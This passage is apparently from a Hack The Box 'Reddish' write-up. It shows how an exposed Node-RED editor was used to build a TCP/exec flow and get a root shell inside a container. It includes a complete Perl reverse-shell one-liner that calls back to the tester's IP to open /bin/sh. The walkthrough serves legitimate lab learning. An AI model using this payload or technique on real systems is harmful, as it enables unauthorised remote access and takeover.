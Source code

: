 ## Node JS Enumeration

We have only one open port. So I Checked that, I give me some HTTP Method error. 

![Untitled](/img/htb-reddish/Untitled%201.png)

I just captured the request in the burp and change the request to POST and I got a response. It contains an ID and Path. We can access that path only with ID.

![Untitled](/img/htb-reddish/Untitled%202.png)

I just copied the ID and accessed `/red/ID`. Its Node-Red.

![Untitled](/img/htb-reddish/Untitled%203.png)

**What is Node-RED?**

- Node-RED is a flow-based development tool for visual programming developed originally by IBM for wiring together hardware devices, APIs and online services as part of the Internet of Things. Node-RED provides a web browser-based flow editor, which can be used to create JavaScript functions

## Node-Red Shell

I just look at all the options we have in the left panel and Items can be dragged into the center panel, and connect with wires. Once my flow is complete, We can hit “Deploy”, and the flow is run.

I decided to make a flow that gives me a shell. So First I took from Input "TCP" and added my details of IP and Port.

![Untitled](/img/htb-reddish/Untitled%204.png)

Another TCP from the output category and in Type I selected "Reply to TCP" and Done.

![Untitled](/img/htb-reddish/Untitled%205.png)

We need to execute it right. so I added exec in between them and connected all those wires. And hit Deploy I got a shell as root.

![Untitled](/img/htb-reddish/Untitled%206.png)

The shell is not stable, so I tried to get reverse from it using various payloads and only perl worked.

```bash
perl -e 'use Socket;$i="10.10.14.30";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Now I got a good shell

![Untitled](/img/htb-reddish/Untitled%207.png)

The first thing I tested is IP address, because we are root so I doubted we are in docker. and Yes we are inside a container. I got 2 more IP's other than 10.10.10.95 (Box IP).
